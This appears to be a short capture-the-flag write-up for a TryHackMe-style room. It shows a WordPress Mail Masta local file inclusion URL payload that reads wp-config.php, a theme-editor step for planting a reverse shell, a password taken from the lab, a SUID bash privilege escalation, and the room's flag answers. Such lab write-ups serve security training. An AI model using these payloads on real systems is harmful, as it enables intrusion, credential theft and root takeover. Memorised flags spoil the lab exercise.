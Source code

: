 # All in One-Local File Inclusion&SUID chmod

1. Interesting directory: /wordpress

2. Wordpress exploitation

```
WordPress Plugin Mail Masta 1.0 - Local File Inclusion

# Get DBS credential 
http://$IP/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

# Edit 404.php with admin panel 
http://$IP/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty

# Run reverse shell
http://10.10.244.196/wordpress/wp-content/themes/twentytwenty/404.php
```

3. dbs credentials

```
elyana:H@ckme@123
```

4. Privilege escalation

```
LFILE=/bin/bash
/bin/chmod 6777 $LFILE
/bin/bash -p
```
# Tasks

1. user.txt

```
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}  
```

2. root.txt

```
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}  
```
